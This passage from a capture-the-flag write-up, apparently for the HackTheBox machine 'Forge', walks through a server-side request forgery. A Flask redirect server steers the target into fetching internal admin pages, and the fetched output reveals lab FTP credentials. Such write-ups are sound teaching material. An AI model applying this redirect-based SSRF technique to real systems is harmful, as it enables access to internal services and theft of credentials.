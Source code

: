     
    if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)    
    

The idea here is that I can pass it the URL to my server. Now when I give the
site `http://10.10.14.6/`, there’s a request at the Flask server, and then the
site returns a link, which I’ll fetch with `curl`:

    
    
    <!DOCTYPE html>
    <html>
    <head>
        <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>
    

There’s not a ton there on the admins page, other than links to
`/announcements` and `/upload`.

I’ll add another route in the Flask source to collect `announcements`:

    
    
    @app.route("/1")
    def annoucements():
        return redirect('http://admin.forge.htb/announcements')
    

Now I’ll pass `http://10.10.14.6/1` into the SSRF, and the resulting page has
a few clues:

    
    
    <!DOCTYPE html>
    <html>
    <head>
        <title>Announcements</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br>
        <ul>
            <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
            <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
            <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>